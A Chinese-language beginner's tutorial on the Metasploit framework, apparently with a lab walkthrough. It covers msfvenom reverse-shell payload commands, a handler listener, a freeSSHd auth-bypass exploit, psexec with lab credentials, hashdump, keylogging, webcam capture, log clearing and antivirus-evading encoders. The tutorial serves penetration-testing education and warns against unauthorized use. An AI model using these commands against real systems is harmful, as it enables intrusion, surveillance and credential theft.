


# Metasploit 入门

Metasploit 是一个非常强大的渗透测试框架。本篇初学者指南将引导你完成Metasploit入门的关键步骤，从安装到进行第一个渗透测试任务。我会详细的记录漏洞利用的每一步，同时解释基本概念和理论。

## Metasploit 简介

Metasploit 是一款强大的渗透测试框架，允许网络安全专业人士和白帽黑客评估网络和系统的安全性。它有两个主要版本：

- **Metasploit Pro:** 商业版本，有助于实现任务的自动化和管理。此版本具有图形用户界面（GUI）。

- **Metasploit Framework:** 从命令行运行的开源版本。

Metasploit-framework 是一组拥有信息收集、扫描、漏洞利用、漏洞挖掘、后渗透等的工具。Metasploit框架的主要组件可以总结如下：

- **Msfconsole：** 主命令行界面。

- **Modules：** 支持各种模块，如漏洞利用模块、扫描模块、有效载荷模块等。

- **Tools：** 独立的工具，用于漏洞研究、漏洞评估或渗透测试。一些常用的工具包括msfvenom、pattern_create和pattern_offset。

更具体地说，你可以使用Metasploit完成以下功能：

- 进行网络侦察

- 查找目标系统上的漏洞

- 搜索并利用这些漏洞攻击

- 传输并编码有效载荷

- 协助权限提升

**注意：未经授权或者恶意使用msfvenom和Metasploit框架是违法且不道德的！使用前请确保你有适当的授权，并且仅将这些工具用于合法的安全测试或教育目的。**

下面让我们正式开始。

## 安装 Metasploit

如果你使用的是Kali Linux，Metasploit可能已经预装在你的系统上。如果没有，可以通过运行以下命令快速安装：

```bash
sudo apt install metasploit-framework
```

安装完成后，保持Metasploit更新至最新版本非常重要，这能确保你可以访问最新的漏洞利用和模块。打开终端命令提示符，运行以下命令：

```bash
sudo apt update && sudo apt install metasploit-framework
```

现在我们准备启动Metasploit，我们将启动一个名为Metasploit控制台的命令行界面。要启动它，只需运行：

```bash
msfconsole
```

## 基本命令

你现在进入了msfconsole，这是该框架的命令行界面，用于操作Metasploit的各个模块。

下面是一些我们将在本文中介绍的基本命令。

- help：显示帮助列表。

- search<keyword>：基于关键字搜索模块。

- use<module>：选择一个模块使用。

- show options：显示所选模块可用的选项。(show命令后跟模块类型可以列出可用模块)

- set<option><value>：设置所选模块选项的值。

- exploit或run：使用配置好的选项执行选定的模块。

这些功能很有趣，但是大多数命令都提到了模块。什么是模块呢？

## 模块

Metasploit 由各种模块组成，包括漏洞利用模块、辅助模块和后渗透模块等。

你可以将这些模块想象成一组分类的脚本，每个组件都有特定的功能。例如，漏洞利用模块包含所谓的概念验证（POC），这些POC可以用于以高度自动化的方式利用现有漏洞。

在继续之前，理解以下三个概念很重要：

- **漏洞：** 目标系统中存在的涉及、编码或逻辑缺陷。利用漏洞可能导致泄露机密信息或允许攻击者在目标系统上执行代码。

- **漏洞利用：** 一段利用目标系统漏洞的代码。

- **有效载荷：** 漏洞利用孙然可以利用漏洞，但我们需要使用有效载荷来达到我们的一些目的，例如获取目标系统的访问权、读取机密信息等。有效载荷是将在目标系统上运行的代码。

## 搜索模块

通常情况下，当你启动msfconsole时，你首先会使用search命令来查找特定的模块。（如果你想要更多的帮助，可以使用help search）


虽然你可以简单地使用`search enternal blue` 这样的命令，但理论上可能会返回数百个模块，因为Metasploit中有大量可用的模块。这就是我推荐使用搜索运算符的原因。

以下是可用的搜索运算符：

其中特别重要的是模块类型。模块可以具有不同的类型，这是对它们进行分组的主要方式。以下类型可用：

- **辅助模块（Auxiliary）：** 包含各种辅助模块，如扫描器、爬虫和模糊测试器。

- **编码器（Encoders）：** 编码器可以对漏洞利用和有效载荷进行编码，以绕过基于签名的防病毒软件。

- **规避模块（Evasion）** ：虽然编码器会对有效载荷进行编码，但不能直接视为规避防病毒软件的尝试。另一方面，“规避”模块会尝试这样做，但成功率不能保证。

- **漏洞利用模块（Exploit）：** 漏洞利用模块，按目标系统分类整理。

- **空操作（NOPs）：** NOPs（无操作）不做任何事情，字面意思。在Intel x86CPU系列中，它们以0x90标识，CPU在一个周期内不做任何操作。它们通常用作缓冲区以实现一致的有效载荷大小。

- **有效载荷模块（Payload）：** 有效载荷是将在目标系统上运行的代码。示例有效载荷包括：获取shell、加载恶意软件或打开后门。

- **Plugin：** 可以与msconsole集成并共存的附加脚本。

- **Post：** 用于信息收集、深入挖掘等的大量模块，常用于后渗透阶段。

下面这些搜索运算符可以缩小搜索命令的结果。例如：

```bash
search platform:Windows search type:exploit enternal blue
```

这能为你节省大量的时间！

## 漏洞利用模块（选择）

一旦你找到了一个相关的漏洞利用模块，使用`use`命令来选择它：

```bash
use expoit/windows/smb/ms08_067_netapi
```

另一种方式就是通过搜索找到的特定ID来选择模块。

```bash
use 7
```


现在，你已经加载了一个模块，可以使用`info` 命令来阅读更多关于所选模块的信息。

现在是时候继续设置相关选项了。

## 设置模块的选项

使用`show option` 命令可以查看所选模块可用的选项。请注意，不同模块的选项可能差异很大，因此在选择新模块后，一定要看一下它的选项。



当你找到需要更改的选项时，可以使用`set` 命令来配置所选漏洞利用模块的必要选项，例如目标IP地址和有效载荷。

经常使用的参数有：

- RHOSTS：“远程主机”，目标系统的IP地址。可以设置单个IP地址或网络范围。还可以使用一个文件，其中列出每个目标，每个目标单独一行，使用格式为：`file:/path/of/the/target_file.txt`。

- PRORT：“远程端口”，目标系统上运行漏洞应用程序的端口。

- LHOST：“本地主机”，攻击机器（你的攻击盒子或Kali Linux）的IP地址。

- LPORT：“本地端口”，将用于返回shell连接回的端口。这是攻击机器上的一个端口。

- **SESSION：** 使用Metasploit建立到目标系统上的每个连接都将有一个会话ID。你将使用它与后渗透模块一起，通过现有连接连接到目标系统。

示例：

```bash
set RHOSTS 10.10.25.71
set LPORT 4141
```

## 运行模块

最后，使用`exploit`或`run `命令来执行漏洞利用操作。


Metasploit 将根据你的配置尝试攻击目标系统。如果幸运，你将在目标系统上获得一个shell。但通常我们需要调整更多的设置。现在让我们讨论其他重要的Metasploit概念，例如目标、漏洞利用和Meterpreter shell。

## 目标

目标与模块将要攻击的特定操作系统标识符相关。当你选择一个不同的目标时，所选的漏洞利用模块将适应在该特定目标操作系统上运行。一些需要指定64位或32位架构的漏洞利用就是这种情况的一个例子。另一个例子是一些漏洞里利用支持多个Windows版本。如果你指导目标的信息，成功的可能性机会更高。

要找出可用于所选漏洞利用的目标，我们可以运行：

```bash
show targets
```

在漏洞利用模块视图中执行`show targets` 命令将会显示该特定漏洞利用的所有可用脆弱目标。

通常，Metasploit足够智能，可以设置正确的目标。但在某些情况下，根据你对目标系统的了解手动调整无疑是一个更好的选择。

## 有效载荷

一旦你设置了漏洞利用选项，就可以选择要使用的有效载荷。Metasploit中有两种不同类型的有效载荷：

- **Singles：** 自包含的有效载荷（添加用户、启动notepad.exe等），不需要下载额外的组件即可运行。

- **Stagers：** 负责在Metasploit和目标系统之间建立连接通道。“分阶段有效载荷”首先将stager上传到目标系统，然后下载其余带的有效载荷（stage）。这有一些优势，因为初始有效载荷的大小会相对较小。

- **Stages:** 由stager下载。这允许你使用更大的有效载荷。

使用`show payloads` 命令列出所选漏洞利用模块可用的有效载荷。你可能想知道有效载荷是分阶段的还是单一的，如果我们查看`windows/shell/reverse_tcp`和`windows/shell_reverse_tcp`,带有正斜杠的是“分阶段”有效载荷，带 下划线的是“单一”有效载荷。

除了这种分类之外，Meterpreter还提供了多种不同版本供你根据目标系统选择。可以使用以下命令列出所有载荷：

```bash
msfvenom --list payloads
```

然后，你可以添加管道符命和`grep meterpreter` 命令，以仅显示包含Meterpreter载荷的选项。

选择哪个版本的Meterpreter取决于以下几个因素：

- 目标操作系统

- 目标系统上的组件（Python、PHP网站等）

- 网络连接类型（TCP/HTTPS/IP6）

在使用某个模块时，你可以输入`show payloads` 来列出该模块可用的所有载荷。

一旦你找到了有趣的有效载荷，可以使用`set payload`命令，后面跟要使用的有效载荷的名称。

```bash
set payload windows/meterpreter/reverse_tcp
```

另外，你还可以使用`show payloads` 结果中显示的ID来选择有效载荷。设置有效载荷后，我们还需要再次设置一些选项。对于有效载荷部分，我们需要设置以下两个参数：

- LHOST：攻击者的IP地址。

- LPORT：攻击者机器上的监听端口。

完成设置后，你可以再次运行漏洞利用。希望你能获得一个shell。根据有效载荷的类型，你可能会获得一个Meterpreter shell。你说呢？

## Meterpreter 有效载荷

在我们继续之前，需要介绍一个重要的概念：Meteerpreter有效载荷。这是一种多功能的有效载荷，利用DLL（Dynamic Link Library，动态链接库）注入与受害者主机建立稳定而隐蔽的连接。旨在跨越重启或系统更改保持持久性，同时难以通过传统取证技术检测。

Meterpreter 完全在主机的内存中运行，不会在硬盘上留下任何痕迹。因此，它更难以被防病毒软件检测到。另外，Meterpreter与运行Metasploit的服务器之间使用加密通信。此外，它还可以根据需要动态加载和卸载脚本和插件。

执行Meterpreter有效载荷后，会创建一个新会话，生成Meterpreter界面。该界面类似于msfconsole界面，但其命令专注于有效载荷“感染”的目标系统。感觉就像一个普通的shell，但你应该把它看作是一个超级shell，它功能非常强大。

为了熟悉可以使用的命令，下面列出`help`菜单输出中的核心指令：

### 核心指令：

- **background:** 将当前会话置于后台。这意味着你可以在后台运行这个会话，同时继续在Metasploit控制台执行其他命令。

- **exit：** 终止当前Metersploit会话，这将切断与目标系统的连接。

- **guid：** 获取会话的GUID。GUID是一个全局唯一标识符，用于标识每个会话。

- **help：** 显示帮助菜单。输入`help` 命令后，会显示所有可用的Meterpreter命令及其简要说明。

- **info：** 显示关于某个Post模块的信息。Post模块是Metasploit中用于执行后渗透任务的脚本。

- **irb：** 在当前会话中打开一个交互式Ruby shell。这允许你使用Ruby语言编写自定义脚本，对目标系统进行更深入的交互。

- **load：** 加载一个或多个Meterpreter扩展。扩展可以提供额外的功能，例如对特定操作系统的支持或特定的攻击技术。

- **migrate：** 将Meterpreter迁移到另一个进程。这可以帮助你隐藏Meterpreter使其更难以被检测。如果你看到目标系统上运行着一个文字处理程序（例如word.ext、notpad.exe等），你可以迁移到它并开始捕获用户发送到这个进程的按键。某些Meterpreter版本会提供`keyscan_start`、`keyscan_stop` 和`keyscan_dump` 命令选项，使Meterpreter能够像键盘记录器一样工作。迁移到另一个进程还可以帮助你获得更稳定的Meterpreter会话。要迁移到任何进程，你需要输入`migrate` 命令，后跟所需目标进程的PID。注意：如果你从一个更高权限（例如SYSTEM）的用户迁移到一个由较低权限用户（例如webserver）启动的进程，你可能会丢失用户权限。

- **run：** 执行一个Meterpreter脚本或Post模块。这可以自动化一些常见的任务。例如收集系统信息，提权等。

- **session：** 快速切换到另一个会话。如果你有多个活跃的会话，可以使用这个命令在它们之间切换。

### 文件系统命令

- **cd:** 更改目录。

- **ls：** 列出当前目录下的文件。 

- **pwd：** 打印当前工作目录。

- **edit：** 编辑文件。

- **cat：** 显示文件内容。

- **rm：** 删除文件。

- **search：** 搜索文件。（可用于定位可能包含有用信息的文件。在CTF环境中，这可以用来快速找到旗帜或证明文件，而在实际渗透测试中，你可能需要搜索用户生成的文件或配置文件，其中可能包含密码或账户信息。）

- **upload：** 上传文件或目录。

- **download：** 下载文件或目录。

### 网络命令

- **arp：** 显示主机的ARP（地址解析协议）缓存。(ARP缓存用于将IP地址映射到MAC地址。通过`arp` 命令，可以查看目标系统上IP地址对应的物理设备。）

- **ifconfig：** 显示目标系统上可用的网络接口。（此命令可以显示网卡的名称、IP地址、子网掩码等信息。）

- **netsate：** 显示网络连接。（此命令可以显示目标系统上当前所有的网络连接，包括TCP连接、UDP连接、监听端口等。）

- **portfwd：** 转发本地端口到远程服务。（此命令可以将攻击者机器上的一个端口转发到目标系统上的某个服务。）

- **route：** 查看和修改路由表。路由表决定了数据包在网络中的传输路径。

### 系统命令

- **clearev：** 清除事件日志。（可以帮助隐藏攻击痕迹）

- **execute：** 执行命令。(可以执行任意系统命令)

- **getpid：** 显示当前进程标识符。

- **getuid：** 显示Meterpreter运行的用户。（这能让你了解你在目标系统的可能权限级别。）

- **kill：** 终止一个进程。

- **pkill：** 根据进程名终止进程。

- **ps：** 列出正在运行的进程。（这个命令可以显示目标系统上所有正在运行的进程的信息，包括进程ID、进程名、启动时间等。其中，PID还能提供你需要迁移Meterpreter到另一个进程的PID信息）。

- **reboot：** 重启远程计算机。

- **shell：** 进入系统命令行。（按下CTRL+Z返回Meterpreter shell）。

- **shutdown：** 关闭远程计算机。

- **sysinfo：** 获取远程系统信息。

### 其他命令

- **idletime：** 返回远程用户空闲的秒数。

- **keyscan_dump：** 转储键盘缓冲区。

- **keyscan_start:** 开始捕获按键。

- **keyscan_stop:** 停止捕获按键。

- **screenshare:** 允许实时观看远程用户桌面。

- **screenshot:** 抓取交互式桌面的屏幕截图。

- **record_mic：** 记录默认麦克风音频x秒。

- **webcam_chat:** 开始视频聊天。

- **webcam_list:** 列出网络摄像头。

- **webcam_snap:** 拍摄指定网络摄像头的快照。

- **webcam_stream:** 播放指定网络摄像头的视频流。

- **getsystem:** 尝试提升权限到本地系统。

- **hashdump：** 命令将列出SAM（Securit Account Manager，安全账户管理器）数据库的内容。SAM数据库存储Windows系统上的用户密码。虽然从数学上不可能“破解”这些哈希值，但你仍然可以通过在线NTLM数据库或彩虹表攻击发现铭文密码。

## 会话&后渗透

如果漏洞利用成功，你将进入后渗透阶段。你可以使用各种后渗透模块来收集信息、维持访问权限，并在受损系统上执行其他操作。

现在是时候使用一些后渗透命令了。首先将你的shell放到后台（按CTRI+Z）。然后输入`sessions -l` 查看会话ID。


列出正在运行的会话。通过输入`search enum` 来查找合适的模块。这将会显示：


看起来很有趣，加载它并设置会话选项为1。


现在，你可以运行后渗透模块，它将在之前建立的会话上运行。你将能够运行不同的操作，从而增加对系统的控制。

## 编码器

编码器是一个我想简要提到的功能，尽管在我们的学习过程中可能不是非常重要。编码器是用于以一种更难以被安全系统（比如入侵检测系统（IDS）或者防病毒软件）检测和阻止恶意有效载荷的方式转换数据的工具或技术。在渗透测试或真实世界的攻击的漏洞利用阶段试图逃避检测时，通常会使用编码器。

编码器将原始有效载荷（通常是shellcode或其他形式的恶意代码）转换为一种仍然能够实现相同目标但不再容易被基于签名的安全系统识别的形式。

我们可以使用命令`show encoders` 列出可用的编码器。

与可用的有效载荷一样，这些编码器也会根据漏洞利用模块自动过滤，只显示兼容的编码器。

## Msfvenom

Msfvenom替换了Msfpayload和Msfencode，允许你生成有效载荷。

Msfvenom能让你访问Metasploit框架中可用的所有有效载荷，它还允许你为许多不同的目标系统创建多种不同格式的有效载荷。

这为什么会那么重要？虽然msfconsole在你与目标具有网络连接时表现非常完美，但有时你需要手动将有效载荷上传到服务器或通过电子邮件发送。为此，msfvenom诞生。

### 如何创建有效载荷

当使用Msfvenom时，一般的漏洞利用步骤是：

#### 1. 使用MSFvenom生成有效载荷

MSFvenom需要一个有效载荷、本地机器IP地址和有效载荷将连接的本地端口。一般情况下，有效载荷的创建方式如下：

<payload>: 指定要生成的有效载荷。这可以是Metasploit支持的任何有效载荷，例如`windows/meterpreter/reverse_tcp` 用于Windows Meterpreter 反向shell。根据有效载荷及其特定要求，你需要提供额外的选项。这些选项根据有效载荷而变化，但常见的选项包括：

- **-f <format>：** 指定有效载荷的输出格式（例如，exe、dll、python、bash）

- **-o <output_file>：**  指定生成有效载荷的文件名。

- **LHOST=<listener_IP>:** 设置监听器的IP地址。（你的攻击机器）

- **LPORT=<listener_port>:** 设置有效载荷将连接回你的监听器的端口号。

**示例有效载荷命令：**

基于目标系统的配置（操作系统、安装的Web服务器、解释器等），msfvenom可以用来创建几乎所有格式的有效载荷。下面是一些经常会用到的示例，具体取决于目标系统。

- **Windows** 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST:10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

- **PHP**

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

- **ASP** 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

- **Python** 

```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

#### 2. 设置监听器：

为了捕获来自生成的有效载荷的传入连接，你需要使用Metasploit框架设置一个监听器。你可以使用`exploit/multi/handler` 来实现这一点。

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Attacker IP>
set LPORT <Attacker listening port>
exploit
```

#### 3. 执行有效载荷：

现在你已经有了有效载荷和监听器，你可以将有效载荷传递给目标系统。传递的方法取决于你的具体场景，但常见的技术包括电子邮件附件、社工或者利用漏洞。

#### 4. 会话：

如果有效载荷执行成功，你应该会在你的msfconsole会话中看奥一个Meterpreter会话建立。然后，你可以使用各种Meterpreter命令与被入侵的系统交互。

## Metasploit 框架渗透实战

### 漏洞利用案例：

1. 运行Metasploit框架

```bash
sudo msfconsole
```

 

首先，我们需要借助nmap等工具确定目标机器上有哪些端口是开放的。一旦找到开放的端口（假设是22号端口，即SSH端口），我们就可以使用以下代码（从kali database 中查找所有的漏洞）：

```bash
searchsploit ssh 
```


这里我们选择 “free**SSH**d 1.2.6 — Authentication Bypass (Metasploit)”漏洞。

```bash
msfconsole //打开Metasploit框架
use exploit/windows/ssh/fresshd_authbypass
show targets  //选择目标
```


```bash
set TARGET 0 
show options 
```



```bash
set RHOSTS IP_ADDRESS_YOU_WANT_TO_EXPLOIT
exploit
```

### 后渗透案例

Meterpreter提供了多个重要的后渗透工具。此外，你还可以使用`load` 命令加载其他的工具。例如，加载整个Python语言。一旦使用`load` 命令加载了任何其他工具，你就能在帮助菜单中看到新的选项。

以下问题将帮助你更好地理解如何在漏洞利用后使用Meterpreter。

假设你可以使用以下的凭据来模拟通过SMB（服务器消息模块）进行初始的入侵。（使用exploit/windows/smb/psexec）

```json
Username:ballen
Password:Password1
```

#### 获取计算机信息

首先启动`msfconsole`，然后输入`use exploit/windows/smb/pasexec`。


设置相关的选项，这里指的是 RHOSTS (目标IP)、SMBPass（Password1）和SMBUser（ballen）。最后输入`run` ! 之后可以获得一个Meterpreter会话。

使用`sysinfo` 获取系统信息。


#### 发现用户的共享

  现在是时候使用一些端口利用命令了。首先将Meterpreter后台化（按CTRL+Z）。通过输入`session -l` 查看会话ID，这个ID可能为1。


通过输入`search enum` 查找合适的模块。我发现了：


看起来很有趣，加载它然后将它的session选项设置为1.


由于用户名是ballen，而且域名为FLASH，共享的名称就是speedster。

#### 发现NTLM哈希

> NTLM（NT LAN Manager）哈希是Windows系统中用于存储用户密码的一种加密方式。

首先我尝试再次进入Meterpreter会话，输入`session -i 1` 。然后我尝试运行`hashdump` 但是失败了。我使用Google搜索后，找到了`migrate`命令，然后，我使用`ps` 命令列出了所有进程，并将meterpreter迁移到一个系统进程，成功！：


#### 获取明文密码

我们可以使用在线的NTLM数据库来查找密码，因为从数学角度来说，破解NTLM哈希是不可能的。我在 [https://crackstation.net/](https://crackstation.net/) 上输入了哈希值，并得到了答案。

#### 查找敏感文件

这个比较简单，只需要在meterpreter中输入以下命令：

```bash
search -f secrets.txt
```

搜索可能需要一些时间。

#### 查看敏感文件内容

```bash
cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
```

> 注意引号，因为路径中包含很多空格。

## 结论

Metasploit是一个强大的工具，用于进行合法的黑客攻击和渗透测试，但必须始终负责任的使用，并获得适当的授权。这份初学者指南为入门Metasploit提供了基础，但随着经验的累积，还有很多值得探索的内容。持续学习和实践，才能熟练掌握这个宝贵的网络安全工具。
